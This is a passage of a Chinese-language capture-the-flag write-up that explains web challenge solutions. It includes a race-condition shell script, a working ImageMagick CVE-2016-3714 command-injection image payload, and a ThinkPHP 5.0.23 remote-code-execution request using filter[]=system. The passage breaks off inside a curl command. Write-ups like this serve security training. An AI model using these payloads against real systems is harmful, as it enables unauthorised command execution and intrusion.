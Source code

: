 ```python
    t = threading.Thread(target=creatSession, args=())
    t.setDaemon(True)
    t.start()
    while True:
        res = requests.get(url, headers=headers)
        print("[/] " + res.text)
        if "c4ca4238a0b923820dcc509a6f75849b" in res.text:
            print("[*] Get shell success.")
            break
        else:
            print("[-] retry.")
```

开启两个线程，一个线程上传文件，另一个线程访问index.php获取包含的结果。

经过不断的尝试和猜测路径，最终在/home/mywww/flag_is_here发现flag。

## web-15 魔法的力量

该题利用了ImageMagick的CVE-2016-3714漏洞。

ImageMagick流行的原因之一，就是它功能强大，可以处理很多情况，而有一个功能delegate，作用是调用外部的lib来处理文件。调用外部lib就是执行system命令，从而产生命令执行漏洞。

解析https图片的时候，使用了curl命令将其下载，payload只需使用反引号或闭合双引号，就可以执行任意命令。

将一下内容保存为xxx.png，上传既可触发列目录。

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/1.jpg"|ls -al")'
pop graphic-context
```

从文件名中可以找到flag。

## web-16 你听说过Thinkphp吗

听说过

网页看出thinkphp版本是thinkphp 5.0.23

推荐一个网站查看thinkphp的漏洞 https://www.exploit-db.com/ ，在网站里搜索thinkphp，找到

https://www.exploit-db.com/exploits/46150

这里没有开启debug模式，我们选择thinkphp 5.0.23(完整版)提到的内容

```text
33、（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al
```

构造请求执行命令

```php
curl --location --request POST 'https://thinkphp5-ctfd.dun.mi.com/index.php?s=captcha' \
--header 'authority: thinkphp5-ctfd.dun.mi.com' \
--header 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
--header 'accept-language: zh-CN,zh;q=0.9,en;q=0.8' \
--header 'cache-control: max-age=0' \
--header 'cookie: TODO cookie'\
--header 'sec-ch-ua: "Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "macOS"' \
--header 'sec-fetch-dest: document' \
--header 'sec-fetch-mode: navigate' \
--header 'sec-fetch-site: none' \
--header 'sec-fetch-user: ?1' \
```